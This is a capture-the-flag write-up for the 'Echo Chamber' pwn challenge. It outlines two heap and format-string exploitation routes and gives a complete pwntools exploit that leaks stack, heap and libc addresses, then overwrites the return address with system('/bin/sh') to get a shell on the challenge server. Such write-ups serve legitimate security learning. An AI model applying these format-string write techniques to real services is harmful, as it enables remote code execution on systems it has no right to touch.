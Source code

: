 # __ P.W.N. CTF__ 

## _Echo Chamber_

## Information

**Category:** | **Points:** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 552 | 8 | merrychap

**Description:** 

> Echo chambers are a thing nowadays. Flag in /opt.

`nc echochamber.uni.hctf.fun 13374 `


## TLDR Solution

[echo_chamber](./echo_chamber)
[libc.so.6][./libc.so.6]
[ld-linux.so.2](./ld-linux.so.2)


There were basically two different approaches to exploit the binary (at least, I found two of them).

1. The first one: Produce a double free attack in the echo loop using format string bug. After this, still in the echo loop, manage the `malloc` to allocate in the same chunk that was freed earlier. Quit from the echo loop and produce fastbin attack, allocating in `__free_hook`, writing `one_gadget` address there.

2. The second one: In the echo loop, use stack address chains to be able to write anywhere in the memory. Then just overwrite RET with the `system` address and RET+8 with the `/bin/sh` address in the given libc.

I decided to implement the second one exploit. The first one I found after the CTF ended.

```python
from time import sleep

from pwn import *


def main():    
    libc = ELF('./libc.so.6')
    # pc = process(['./ld-linux.so.2', './echo_chamber'], env={'LD_PRELOAD': './libc.so.6'})

    pc = remote('echochamber.uni.hctf.fun', 13374)

    raw_input()

    pc.recvline()

    pc.sendline('%1$x')
    stack = int(pc.recv(10), 16) - 40
    print 'stack @ ' + hex(stack)

    pc.sendline('%5$x')
    text_base = int(pc.recv(10), 16) - 0x2029
    print 'text_base @ ' + hex(text_base)

    # 10 is an offset for buffer
    pc.sendline('%10$x')
    heap_base = int(pc.recv(10), 16) - 0x240
    print 'heap_base @ ' + hex(heap_base)

    pc.sendline('%19$x')
    libc_base = int(pc.recv(10), 16) - 241 - libc.symbols['__libc_start_main']
    print 'libc_base @ ' + hex(libc_base)
    print 

    print '1. become ' + hex((stack + 56) & 0xffff)
    print '2. become ' + hex((stack + 98) & 0xffff)

    target1 = libc_base + libc.symbols['system']
    target2 = libc_base + list(libc.search('/bin/sh'))[0]

    pc.sendline('A' * 32)

    # 61 is the offset for the server, but
    # 62 is for the local exploitation
    pc.sendline('%{}x%25$hn'.format((stack + 56) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92) & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 98) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92) >> 16))
    pc.sendline('%{}x%61$hn'.format((stack + 96) & 0xffff))
    pc.sendline('%{}x%24$hn'.format((target1) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92 + 2) & 0xffff))
    pc.sendline('%{}x%24$hn'.format((target1) >> 16))

    pc.sendline('%{}x%61$hn'.format((stack + 100) & 0xffff))
    pc.sendline('%{}x%14$hn'.format(target2 & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 100+2) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((target2 >> 16) & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 96) & 0xffff))

    pc.sendline('q')

    pc.sendlineafter('Was it fun?', 'A')
    pc.sendlineafter('Would you echo again?', 'A')

    pc.interactive()


if __name__ == '__main__':
    main()
```

> flag{something_with_tcache_ga48ghydgja}